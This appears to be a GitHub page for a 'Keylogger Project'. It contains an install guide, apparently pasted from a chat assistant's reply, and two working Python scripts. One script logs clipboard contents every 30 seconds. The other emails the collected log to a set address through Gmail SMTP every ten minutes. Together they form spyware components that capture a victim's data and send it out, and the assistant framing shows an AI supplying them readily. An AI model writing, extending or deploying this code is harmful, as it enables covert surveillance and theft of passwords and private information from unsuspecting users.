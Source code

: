 Here’s the INSTALL.md file content, formatted perfectly for GitHub:

markdown
Copy
Edit
# Installation Guide

This guide will help you set up the required Python environment and libraries to run the Keylogger Project.

---

## Required Python Libraries

- `pynput` — For capturing keyboard input  
- `pyperclip` — For clipboard access  
- `schedule` — For running periodic tasks  

---

## Step 1: Open Command Prompt / Terminal

- **Windows:** Press `Win + R`, type `cmd`, and press Enter.  
- **Mac:** Open Terminal from Applications > Utilities.  
- **Linux:** Open your preferred terminal emulator.

---

## Step 2: Verify Python and pip Installation

Run the following commands to verify installation:

```bash
python --version
pip --version
If either is not recognized, install Python from python.org.

Step 3: Install Required Libraries
Run this command:

bash
Copy
Edit
pip install pynput pyperclip schedule
If you encounter permission issues, try:

bash
Copy
Edit
pip install --user pynput pyperclip schedule
Or if pip is not recognized:

bash
Copy
Edit
python -m pip install pynput pyperclip schedule
Step 4: Verify Successful Installation
Run this command to confirm all libraries are installed:

bash
Copy
Edit
python -c "import pynput; import pyperclip; import schedule; print('All libraries installed successfully!')"
No errors means you’re ready!

Troubleshooting
If you have multiple Python versions, use python3 and pip3 instead of python and pip.

Ensure your PATH environment variable includes Python and pip executables.

On Linux/Mac, you might need to use sudo for global installations:

bash
Copy
Edit
sudo pip install pynput pyperclip schedule
Happy coding! If you encounter issues, feel free to open an issue on the repository.

python
Copy
Edit

---

And here are the two new code files, ready for you to add as separate `.py` files:

---

### `send_keylog.py`

```python
import smtplib
from email.mime.text import MIMEText
import time
import schedule

EMAIL_ADDRESS = "yourname@gmail.com"
EMAIL_PASSWORD = "yourapppassword"
TO_EMAIL = "receiveremail@gmail.com"
LOG_FILE = "keylog.txt"

def send_email():
    try:
        with open(LOG_FILE, "r") as f:
            content = f.read()

        msg = MIMEText(content)
        msg['Subject'] = 'Automated Keylog Report'
        msg['From'] = EMAIL_ADDRESS
        msg['To'] = TO_EMAIL

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp:
            smtp.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
            smtp.send_message(msg)

        print("✅ Log email sent successfully!")

    except Exception as e:
        print(f"❌ Failed to send email: {e}")

# Schedule: every 10 minutes
schedule.every(10).minutes.do(send_email)

print("📧 Automated email sender running. Press CTRL+C to stop.")

while True:
    schedule.run_pending()
    time.sleep(1)
clipboard_logger.py
python
Copy
Edit
import pyperclip
import time
from datetime import datetime

LOG_FILE = "keylog.txt"
last_clipboard = ""

def capture_clipboard():
    global last_clipboard
    try:
        clipboard_data = pyperclip.paste()
        if clipboard_data != last_clipboard:
            last_clipboard = clipboard_data
            timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
            with open(LOG_FILE, "a") as f:
                f.write(f"{timestamp} - CLIPBOARD: {clipboard_data}\n")
            print(f"📋 Clipboard captured: {clipboard_data}")
    except Exception as e:
        print(f"❌ Clipboard capture error: {e}")

print("📋 Clipboard logger running. Press CTRL+C to stop.")

while True:
    capture_clipboard()
    time.sleep(30)  # Capture every 30 seconds





